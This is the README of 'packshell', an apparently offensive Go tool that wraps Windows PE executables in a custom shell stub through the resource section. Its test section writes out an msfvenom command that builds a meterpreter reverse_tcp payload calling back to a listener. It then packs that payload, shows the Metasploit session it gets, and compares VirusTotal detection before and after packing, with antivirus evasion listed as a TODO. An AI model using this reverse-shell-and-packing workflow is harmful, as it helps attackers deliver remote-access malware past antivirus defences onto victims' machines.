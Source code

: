# packshell
A tool create a new file using a custom shell and a source pe files

use PE .rsrc section

# Usage

1. download dependencies

```shell
go mod download
```

2. complie the shell.go use this command

```shell
go build -o shell.exe .\cmd\shell.go
```

3. complie the packer.go use this command

```shell
go build -o packer.exe .\cmd\packer.go
```

4. move your pe file which you want execute into this project's root directory

5. use this command to create new file which with a shell

```
.\packer <your pe file> <output file>
```

6. execute the output file



# Detail

![detail](./images/detail.jpg)

# Test

## logic test

- use msfvenom create a test pe file

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.65.128 lport=9999 -f exe -o win_normal.exe
```

- msf create a listener

![msf](./images/msf.png)

- use our project packshell create a new file

```
go build .\cmd\shell.go
go build .\cmd\packer.go
packer.exe win_normal.exe win_pack.exe
```

- execute new file and msf get a session

![session](./images/session.png)

## anti-virus test

- unpack file in virustotal

![unpack](./images/unpack.png)

- packed file in virustotal

![packed](./images/packed.png)

# TODO

- [ ]anti anti-virus

